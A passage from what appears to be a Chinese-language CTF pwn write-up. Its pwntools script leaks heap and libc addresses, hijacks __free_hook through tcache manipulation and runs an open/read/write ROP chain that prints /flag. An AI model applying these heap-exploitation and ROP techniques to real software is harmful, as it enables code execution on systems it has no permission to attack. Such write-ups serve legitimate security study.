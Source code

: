 ```python
show(0)
rc(8)
heap_base = uu64(rc(8))-0x10
success('heap_base --> %s',hex(heap_base))

pop_rdi_ret = libc_base+0x0000000000023b6a
pop_rsi_ret = libc_base+0x000000000002601f
pop_rdx_ret = libc_base+0x0000000000142c92
pop_rax_ret = libc_base+0x0000000000036174
syscall_ret = libc_base+0x00000000000630a9
free_hook = libc_base+0x1eee48

edit(6,p64(free_hook) + flat([
        libc_base+0x0000000000025b9b, #利用了csu的gadget
        0,
        heap_base+0xad0,
        pop_rdi_ret,
        heap_base+0xad0,
        pop_rsi_ret,
        0,
        pop_rdx_ret,
        0,
        pop_rax_ret,
        2,
        syscall_ret, # open
        pop_rdi_ret,
        3,
        pop_rsi_ret,
        heap_base+0xad0,
        pop_rdx_ret,
        0x30,
        pop_rax_ret,
        0,
        syscall_ret, # read
        pop_rdi_ret,
        1,
        pop_rax_ret,
        1,
        syscall_ret, # write
]))

new(8,0xf0,flat({ #使用flat将多个序列生成单一序列
        0x00: 0x67616C662F, # /flag  #在偏移0x00处存入flag字段
        0x28: libc_base+0x00000000000578c8, #在偏移0x28处存入地址
        0x48: heap_base+0xfa0  #指向字符串的位置
}, filler=b'\x00')) #最后有b'\x00' 填充剩余的位置
new(9,0xf0,p64(libc_base+0x0000000000154dea)) # rbp=[rdi+0x48]; rax=[rbp+0x18]; call [rax+0x28]
#dbg('b *(free+161)\nc')
free(8)

irt()
```
### 调试的全过程
#### 泄露Libc
```python
#tcache中每个链表最多7个节点(chunk)
#暴tcache，进入unsorted bin
for i in range(8):
        new(i,0xf0,b'')
for i in range(8):
        free(i)
#泄露main_arena
```